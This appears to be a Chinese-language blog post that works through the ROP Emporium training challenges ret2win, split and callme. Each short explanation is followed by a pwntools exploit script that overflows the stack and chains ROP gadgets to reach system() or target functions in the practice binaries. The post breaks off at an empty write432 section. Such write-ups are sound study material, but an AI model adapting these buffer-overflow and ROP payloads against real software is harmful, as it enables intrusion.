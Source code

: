 ```yaml
---
layout: post
title:  "ROP_Emporium通关指南"
date:   2018-09-19 18:44:00
categories: WriteUp
tags: WriteUp PWN ROP_Emporium
---
```


* content
{:toc}


暑假去了趟Xman认识了一群大佬，也因此受到刺激成长了不少，这里就写一篇在xman时通关的rop—rmporium的wp来记录一下自己的学习历程





## ret2win32

### 思路

简单的rop构造，ctf-wiki上好像把这种叫做ret2text

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('ret2win32')
elf = ELF('ret2win32')

bufsize = 40
buf = 'a'*bufsize
sh_addr = 0x08048659

payload = buf + 'aaaa' + p32(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## ret2win

### 思路

和上面的方法一样，只有一点差别是在64位下前6个参数是通过寄存器传递，更多的参数才入栈。

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('ret2win')
elf = ELF('ret2win')

bufsize = 0x20
buf = 'a'*bufsize
fake_ebp = 'a'*0x8
sh_addr = 0x400811

payload = buf + fake_ebp + p64(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## split32

### 思路
热身题，很直接的ret2syscall

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./split32')
elf = ELF('./split32')

system_addr = elf.plt['system']
pop_ret = 0x080483e1
sh_addr = 0x804a030
bufsize = 40
buf = 'a'*bufsize

payload = buf + 'aaaa' + p32(system_addr) + 'aaaa' + p32(sh_addr)


def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## split

### 思路
64位的ret2syscall,比如我们想要传入一个参数，那这个参数需要被布置到寄存器rdi中，这时我们可以寻找诸如pop rdi;ret的代码片段，从而在执行完pop rdi后把栈上布置好的数据存放到寄存器rdi中后能够再次控制程序执行流（ret）

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./split')
elf = ELF('./split')

bufsize = 32
buf = 'a'*bufsize
system_addr = elf.plt['system']
pop_rdi_ret = 0x400883
sh_addr = 0x601060

payload = buf + 'a'*8 + p64(pop_rdi_ret) + p64(sh_addr) + p64(system_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme32

### 思路
ret2libc的简单利用，审计过程序和libccallme32.so不难理解要得到flag要依次调用callme_one(1,2,3),callme_two(1,2,3),callme_three(1,2,3),这三个函数都是定义在libccallme32里,所以我们可以像调用system去调用(注意堆栈平衡)

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./callme32')
elf = ELF('./callme32')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x080488a9
bufsize = 0x28
buf = 'a'*bufsize
argv = p32(1)+p32(2)+p32(3)

payload = buf + 'aaaa'
payload += p32(callme_one)+p32(ppp_ret)+argv
payload += p32(callme_two)+p32(ppp_ret)+argv
payload += p32(callme_three)+p32(ppp_ret)+argv

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme

### 思路
和32位差不多，不过不用考虑堆栈平衡(注意64位和32位的差别)

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./callme')
elf = ELF('./callme')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x401ab0
bufsize = 0x20
buf = 'a'*bufsize
argv = p64(1) + p64(2) + p64(3)

payload  = buf + 'a'*8
payload += p64(ppp_ret) + argv + p64(callme_one)
payload += p64(ppp_ret) + argv + p64(callme_two)
payload += p64(ppp_ret) + argv + p64(callme_three)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## write432

### 思路

### exp
```python

```